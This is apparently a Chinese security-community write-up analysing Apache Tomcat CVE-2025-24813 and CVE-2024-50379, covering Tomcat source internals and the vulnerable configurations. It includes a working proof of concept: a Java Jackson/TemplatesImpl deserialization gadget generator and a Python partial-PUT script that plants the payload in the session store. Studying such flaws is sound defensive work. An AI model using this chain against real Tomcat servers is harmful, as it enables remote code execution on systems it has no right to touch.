






# Apache Tomcat Partial PUT漏洞学习-先知社区

> **来源**: https://xz.aliyun.com/news/18074  
> **文章ID**: 18074

---

# CVE-2025-24813

# 漏洞描述

由于Apache Tomcat的Partial PUT原始实现使用了一个基于用户提供的文件名和路径生成的临时文件，当处理不完整的PUT请求时，会将文件路径中的分隔符 / 替换为 .，当应用这时使用了 Tomcat 的文件会话持久化并且使用了默认的会话存储位置，攻击者就可以通过 partial PUT请求将包含恶意序列化数据的文件上传至会话目录，并完成反序列化

影响版本：

```
9.0.0.M1`至`9.0.98
10.1.0-M1`至`10.1.34
11.0.0-M1`至`11.0.210.1.0-M1
```

# 利用条件

* 默认DefaultServlet启用了写入功能，即ReadOnly=False
* 支持Partial PUT请求
* 应用程序开启了Tomcat基于文件的会话持久化功能，并采用默认的存储位置
* 应用程序存在能被用于反序列化的库

# 漏洞复现

1、在Content.xml中需要开启Session的持久化存储

```
<Context>                               -->
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>
    <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>
    <Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
    </Manager>
</Context>
```

2、开启DefaultServlet的默认写入功能

```
<servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

假设Tomcat的本地依赖中存在Jackson链，则可以尝试打入以下反序列化文件，触发session的时候可能需要多执行几次并等待：

```
package com.example.jackson;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class JacksonTomcat {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException, NotFoundException, CannotCompileException {
        CtClass ctClass= ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace=ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{getTemplates()});
        setFieldValue(templatesImpl, "_name", "aiwin");
        setFieldValue(templatesImpl, "_tfactory", null);
        POJONode pojoNode = new POJONode(templatesImpl);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        setFieldValue(exp, "val", pojoNode);
        String result = serialize(exp);
        System.out.println(result);
//        unserialize(result);
    }
    public static void setFieldValue(Object object, String field, Object value) throws NoSuchFieldException, IllegalAccessException {
        Field dfield = object.getClass().getDeclaredField(field);
        dfield.setAccessible(true);
        dfield.set(object, value);
    }
    public static String serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }
    public static byte[] getTemplates() throws NotFoundException, CannotCompileException, IOException {
        ClassPool pool = ClassPool.getDefault();
        CtClass template = pool.makeClass("Test");
        template.setSuperclass(pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec("calc");";
        template.makeClassInitializer().insertBefore(block);
        return template.toBytecode();
    }
    public static void unserialize(byte[] ser) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream=new ObjectInputStream(new ByteArrayInputStream(ser));
        objectInputStream.readObject();

    }

}
import base64
import requests

url = "http://localhost:8080/test/session"
headers = {
    "Host": "127.0.0.1:8080",
    "Content-Range": "bytes 0-1000/1200"
}
file=open('test.txt','r').read()
result=requests.put(url,data=base64.b64decode(file),headers=headers)
print(result)

headers1={
    "Host": "127.0.0.1:8080",
    'Cookie':'JESSIONID=.test'
}
url1='http://localhost:8080/'
result=requests.get(url1,headers=headers1)
print(result)
```



# 漏洞分析

```
protected void doPut(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        if (this.readOnly) {
            this.sendNotAllowed(req, resp);
        } else {
            String path = this.getRelativePath(req);
            WebResource resource = this.resources.getResource(path);
            DefaultServlet.Range range = this.parseContentRange(req, resp);
            if (range != null) {
                Object resourceInputStream = null;

                try {
                    if (range == IGNORE) {
                        resourceInputStream = req.getInputStream();
                    } else {
                        File contentFile = this.executePartialPut(req, range, path);
                        resourceInputStream = new FileInputStream(contentFile);
                    }

                    if (this.resources.write(path, (InputStream)resourceInputStream, true)) {
                        if (resource.exists()) {
                            resp.setStatus(204);
                        } else {
                            resp.setStatus(201);
                        }
                    } else {
                        try {
                            resp.sendError(409);
                        } catch (IllegalStateException var15) {
                        }
                    }
                } finally {
                    if (resourceInputStream != null) {
                        try {
                            ((InputStream)resourceInputStream).close();
                        } catch (IOException var14) {
                        }
                    }

                }

            }
        }
    }
```

在DefaultServlet处理doPut请求的时候，当readOnly为False并且开启parseContentRange分块传输字段后，会进入到executePartialPut方法当中

```
protected File executePartialPut(HttpServletRequest req, DefaultServlet.Range range, String path) throws IOException {
        File tempDir = (File)this.getServletContext().getAttribute("javax.servlet.context.tempdir");
        String convertedResourcePath = path.replace('/', '.');
        File contentFile = new File(tempDir, convertedResourcePath);
        if (contentFile.createNewFile()) {
            contentFile.deleteOnExit();
        }
        RandomAccessFile randAccessContentFile = new RandomAccessFile(contentFile, "rw");
        try {
            WebResource oldResource = this.resources.getResource(path);
            if (oldResource.isFile()) { //如果旧资源是文件，则通过缓冲输入流将旧资源内容读取到临时文件中
                BufferedInputStream bufOldRevStream = new BufferedInputStream(oldResource.getInputStream(), 4096);
                try {
                    byte[] copyBuffer = new byte[4096];

                    int numBytesRead;
                    while((numBytesRead = bufOldRevStream.read(copyBuffer)) != -1) {
                        randAccessContentFile.write(copyBuffer, 0, numBytesRead);
                    }
                } catch (Throwable var18) {
                    try {
                        bufOldRevStream.close();
                    } catch (Throwable var15) {
                        var18.addSuppressed(var15);
                    }

                    throw var18;
                }
                bufOldRevStream.close();
            }
            randAccessContentFile.setLength(range.length);
            randAccessContentFile.seek(range.start);
            byte[] transferBuffer = new byte[4096];
            BufferedInputStream requestBufInStream = new BufferedInputStream(req.getInputStream(), 4096);
            int numBytesRead;
            try {
                while((numBytesRead = requestBufInStream.read(transferBuffer)) != -1) {
                    randAccessContentFile.write(transferBuffer, 0, numBytesRead);
                }
            } catch (Throwable var17) {
                try {
                    requestBufInStream.close();
                } catch (Throwable var16) {
                    var17.addSuppressed(var16);
                }

                throw var17;
            }

            requestBufInStream.close();
        } catch (Throwable var19) {
            try {
                randAccessContentFile.close();
            } catch (Throwable var14) {
                var19.addSuppressed(var14);
            }

            throw var19;
        }

        randAccessContentFile.close();
        return contentFile;
    }
```

在executePartialPut中，从上下文获取临时目录对象，将资源路径中的/替换为.，以读写模式打开新创建的临时文件，并从请求输入流中读取数据，使用缓冲流每次读取 4096 字节，将读取到的数据写入到临时文件中。这里的临时目录默认是`${CATALINA\_BASE}/work/Catalina/${HOST\_NAME}/${CONTEXT\_PATH}

由于开启了Session的持久化存储，而session文件的默认存储点正好位于${CATALINA\_BASE}/work/Catalina/${HOST\_NAME}/${CONTEXT\_PATH}/的临时文件夹，

```
public Session load(String id) throws ClassNotFoundException, IOException {
        File file = this.file(id);
        if (file != null && file.exists()) {
            Context context = this.getManager().getContext();
            Log contextLog = context.getLogger();
            if (contextLog.isTraceEnabled()) {
                contextLog.trace(sm.getString(this.getStoreName() + ".loading", new Object[]{id, file.getAbsolutePath()}));
            }
            ClassLoader oldThreadContextCL = context.bind(Globals.IS_SECURITY_ENABLED, (ClassLoader)null);
            ObjectInputStream ois;
            try {
                FileInputStream fis = new FileInputStream(file.getAbsolutePath());

                StandardSession var9;
                try {
                    ois = this.getObjectInputStream(fis);
                    try {
                        StandardSession session = (StandardSession)this.manager.createEmptySession();
                        session.readObjectData(ois);
                        session.setManager(this.manager);
                        var9 = session;
                    }
```

此处id为session中加载到的key，因此会在临时文件夹下找到关于session命名的文件，并通过流读取到文件的内容，最终通过readObjectData对文件中的内容进行反序列化，达到RCE的效果。



# CVE-2024-50379

# 漏洞描述

由于MacOS和Windows平台的Tomcat在加载JSP的文件时，使用File.exists()来检查文件是否存在，由于平台不区分大小写的性质，导致Tomcat可以通过条件竞争的方式加载xxx.Jsp的文件并成功写入到DefaultServlet中，导致服务器权限被接管。

影响版本：

* 1.0.0-M1 <= Apache Tomcat <= 11.0.1
* 10.1.0-M1 <= Apache Tomcat <= 10.1.33
* 9.0.0.M1 <= Apache Tomcat <= 9.0.97

# 利用条件

DefaultServlet启用了默认HTTP PUT写入的功能，或存在任意的文件上传漏洞。

```
<servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

# 漏洞分析

1、在访问Tomcat的资源的时候，会通过getResource方法安全访问Web应用的资源，首先通过验证的路径获取资源，如果资源不存在，返回的是一个空的资源对象。DirResourceSet从WebResourceSet继承实现了接口。

```
public WebResource getResource(String path) {
        this.checkPath(path);
        String webAppMount = this.getWebAppMount();
        WebResourceRoot root = this.getRoot();
        if (path.startsWith(webAppMount)) {
            File f = this.file(path.substring(webAppMount.length()), false);
            if (f == null) {
                return new EmptyResource(root, path);
            } else if (!f.exists()) {
                return new EmptyResource(root, path, f);
            } else {
                if (f.isDirectory() && path.charAt(path.length() - 1) != '/') {
                    path = path + '/';
                }

                return new FileResource(root, path, f, this.isReadOnly(), this.getManifest());
            }
        } else {
            return new EmptyResource(root, path);
        }
    }
```

2、在file方法中，前期会对获取的资源文件进行安全的检查，如阻止符号链接，检查文件是否非法，并通过normalize统一平台路径的分割符。

```
protected final File file(String name, boolean mustExist) {
        if (name.equals("/")) {
            name = "";
        }

        File file = new File(this.fileBase, name);
        if (name.endsWith("/") && file.isFile()) {
            return null;
        } else if (mustExist && !file.canRead()) {
            return null;
        } else if (this.getRoot().getAllowLinking()) {
            return file;
        } else if (JrePlatform.IS_WINDOWS && this.isInvalidWindowsFilename(name)) {
            return null;
        } else {
            String canPath = null;

            try {
                canPath = file.getCanonicalPath();
            } catch (IOException var6) {
            }

            if (canPath != null && canPath.startsWith(this.canonicalBase)) {
                String absPath = this.normalize(file.getAbsolutePath());
                if (this.absoluteBase.length() > absPath.length()) {
                    return null;
                } else {
                    absPath = absPath.substring(this.absoluteBase.length());
                    canPath = canPath.substring(this.canonicalBase.length());
                    if (canPath.length() > 0) {
                        canPath = this.normalize(canPath);
                    }

                    if (!canPath.equals(absPath)) {
                        if (!canPath.equalsIgnoreCase(absPath)) {
                            this.logIgnoredSymlink(this.getRoot().getContext().getName(), absPath, canPath);
                        }

                        return null;
                    } else {
                        return file;
                    }
                }
            } else {
                return null;
            }
        }
    }
```

当我们访问test.jsp的时候，在经过file.getCanonicalPath()方法时，得到的canPath是test.Jsp，这个函数的是用于规范路径名字符串，会解析符号链接，但是它是**区分大小写的**。



这里的getCanonicalPath中触发的canonicalize是由C语言实现的native，

```
JNIEXPORT jstring JNICALL
Java_java_io_WinNTFileSystem_canonicalize0(JNIEnv *env, jobject this,
                                           jstring pathname)
{
    jstring rv = NULL;
    WCHAR canonicalPath[MAX_PATH_LENGTH];
    WITH_UNICODE_STRING(env, pathname, path) {
        /*we estimate the max length of memory needed as
          "currentDir. length + pathname.length"
         */
        int len = (int)wcslen(path);
        len += currentDirLength(path, len);
        if (len  > MAX_PATH_LENGTH - 1) {
            WCHAR *cp = (WCHAR*)malloc(len * sizeof(WCHAR));
            if (cp != NULL) {
                if (wcanonicalize(path, cp, len) >= 0) {
                    rv = (*env)->NewString(env, cp, (jsize)wcslen(cp));
                }
                free(cp);
            } else {
                JNU_ThrowOutOfMemoryError(env, "native memory allocation failed");
            }
        } else
        if (wcanonicalize(path, canonicalPath, MAX_PATH_LENGTH) >= 0) {
            rv = (*env)->NewString(env, canonicalPath, (jsize)wcslen(canonicalPath));
        }
    } END_UNICODE_STRING(env, path);
    if (rv == NULL) {
        JNU_ThrowIOExceptionWithLastError(env, "Bad pathname");
    }
    return rv;
}

/* Wide character version of canonicalize. Size is a wide-character size. */

int
wcanonicalize(WCHAR *orig_path, WCHAR *result, int size)
{
    WIN32_FIND_DATAW fd;
    HANDLE h;
    WCHAR *path;    /* Working copy of path */
    WCHAR *src, *dst, *dend, c;

    /* Reject paths that contain wildcards */
    if (wwild(orig_path)) {
        errno = EINVAL;
        return -1;
    }

    if ((path = (WCHAR*)malloc(size * sizeof(WCHAR))) == NULL)
        return -1;

    /* Collapse instances of "foo\.." and ensure absoluteness.  Note that
       contrary to the documentation, the _fullpath procedure does not require
       the drive to be available.  */
    if(!_wfullpath(path, orig_path, size)) {
        goto err;
    }

    if (wdots(path)) /* Check for prohibited combinations of dots */
        goto err;

    src = path;            /* Start scanning here */
    dst = result;        /* Place results here */
    dend = dst + size;        /* Don't go to or past here */

    /* Copy prefix, assuming path is absolute */
    c = src[0];
    if (((c <= L'z' && c >= L'a') || (c <= L'Z' && c >= L'A'))
       && (src[1] == L':') && (src[2] == L'\')) {
        /* Drive specifier */
        *src = towupper(*src);    /* Canonicalize drive letter */
        if (!(dst = wcp(dst, dend, L'\0', src, src + 2))) {
            goto err;
        }

        src += 2;
    } else if ((src[0] == L'\') && (src[1] == L'\')) {
        /* UNC pathname */
        WCHAR *p;
        p = wnextsep(src + 2);    /* Skip past host name */
        if (!*p) {
            /* A UNC pathname must begin with "\\host\share",
               so reject this path as invalid if there is no share name */
            errno = EINVAL;
            goto err;
        }
        p = wnextsep(p + 1);    /* Skip past share name */
        if (!(dst = wcp(dst, dend, L'\0', src, p)))
            goto err;
        src = p;
    } else {
        /* Invalid path */
        errno = EINVAL;
        goto err;
    }
    /* At this point we have copied either a drive specifier ("z:") or a UNC
       prefix ("\\host\share") to the result buffer, and src points to the
       first byte of the remainder of the path.  We now scan through the rest
       of the path, looking up each prefix in order to find the true name of
       the last element of each prefix, thereby computing the full true name of
       the original path. */
    while (*src) {
        WCHAR *p = wnextsep(src + 1);    /* Find next separator */
        WCHAR c = *p;
        WCHAR *pathbuf;
        int pathlen;

        assert(*src == L'\');        /* Invariant */
        *p = L'\0';            /* Temporarily clear separator */

        if ((pathlen = (int)wcslen(path)) > MAX_PATH - 1) {
            pathbuf = getPrefixed(path, pathlen);
            h = FindFirstFileW(pathbuf, &fd);    /* Look up prefix */
            free(pathbuf);
        } else
            h = FindFirstFileW(path, &fd);    /* Look up prefix */

        *p = c;                /* Restore separator */
        if (h != INVALID_HANDLE_VALUE) {
            /* Lookup succeeded; append true name to result and continue */
            FindClose(h);
            if (!(dst = wcp(dst, dend, L'\', fd.cFileName,
                            fd.cFileName + wcslen(fd.cFileName)))){
                goto err;
            }
            src = p;
            continue;
        } else {
            if (!lastErrorReportable()) {
               if (!(dst = wcp(dst, dend, L'\0', src, src + wcslen(src)))){
                   goto err;
               }
                break;
            } else {
                goto err;
            }
        }
    }

    if (dst >= dend) {
    errno = ENAMETOOLONG;
        goto err;
    }
    *dst = L'\0';
    free(path);
    return 0;

 err:
    free(path);
    return -1;
}
```

通过wwild()函数检查路径是否包含通配符，包含返回无效参数，通过\_wfullpath()处理为.或..，转化为绝对路径，规范驱动器符号，逐步解析文件系统，并对路径过长和文件不存在进行错误处理等等处理。主要通过wnextsep逐步解析查找下个路径分隔符号\，并通过FindFirstFileW的Windows API查询文件信息，通过wcp函数将查找到的加到dst目的路径当中，FindFirstFileW在查询文件的时候是忽略大小写的，但是返回的最终结果是系统中真实的文件名，存在哒小写。

继续往下走，会发现absPath获取到的是test.jsp，经过!canPath.equalsIgnoreCase(absPath)检查，由于大小写的差异，最终会返回一个EmptyResource空对象。



当文件夹中不存在test.Jsp文件时，此时同样访问test.jsp时，此时canPath获取到的test.jsp，而absPath获取到的也是test.jsp。



此时f文件会被展示为存在的，因此通过f.exists()检查文件是否存在，如果此时test.Jsp写入到文件夹当中，由于不区分大小写的原因，最终文件判断是通过，因此会返回文件。

```
@Override
    public WebResource getResource(String path) {
        checkPath(path);
        String webAppMount = getWebAppMount();
        WebResourceRoot root = getRoot();
        if (path.startsWith(webAppMount)) {
            File f = file(path.substring(webAppMount.length()), false);
            if (f == null) {
                return new EmptyResource(root, path);
            }
            if (!f.exists()) {
                return new EmptyResource(root, path, f);
            }
            if (f.isDirectory() && path.charAt(path.length() - 1) != '/') {
                path = path + '/';
            }
            return new FileResource(root, path, f, isReadOnly(), getManifest());
        } else {
            return new EmptyResource(root, path);
        }
    }
```

通过上面的代码，那么当readonly=False的时候，可以并发执行PUT和GET方法，由于文件没有增加锁的机制，可能会导致f.exists通过资源检查。

在CVE-2017-12615的时候，开放PUT上传的条件下，当我们执行PUT的时候，是由DefaultServlet来进行实现，因此即使是上传了JSP Webshell，由于没有doPut的方法，实际就不会成功，那时候是通过文件名的解析后缀如添加%20等后缀绕过了Tomcat的检测，让DefaultServlet处理逻辑的请求，上传了jsp webshell文件。

反观此处的条件竞争，希望在AbstractFileResourceSet时获取到实际的文件名是jsp后缀，但我们只能上传Jsp后缀触发DefaultServlet处理，因此需要GET xxx.jsp和 PUT xxx.Jsp 并发进行，当某次GET请求时，PUT请求1文件刚好落地，正好读取xxx.Jsp，并会将它jspServlet文件解析。

后续修复当中，也是增加了锁的机制，在write操作没有完成的时候，read操作会被阻塞掉。



# 总结

1. **CVE-2025-24813**：Partial PUT原始实现处理不完整PUT请求时替换文件路径分隔符，由于开启了session的持久化缓存机制，因此导致默认情况下PUT上传到的文件目录在同一个临时文件夹中，可通过session完成反序列化。
2. **CVE-2024-50379**：MacOS 和 Windows 平台因File.exists()检查及大小写忽略问题，可通过条件竞争加载xxx.Jsp文件写入DefaultServlet，此时如果恰好GET xxx.jsp碰到文件的落地，最终xxx.Jsp交给了JspServlet处理器处理。
3. **CVE-2017-12615**：构造特殊后缀名绕过检测，让DefaultServlet处理请求来上传JSP文件，导致最终Webshell上传。

参考文章：<https://mp.weixin.qq.com/s/ewvMUC7CFNMmwexVLVOAzA>
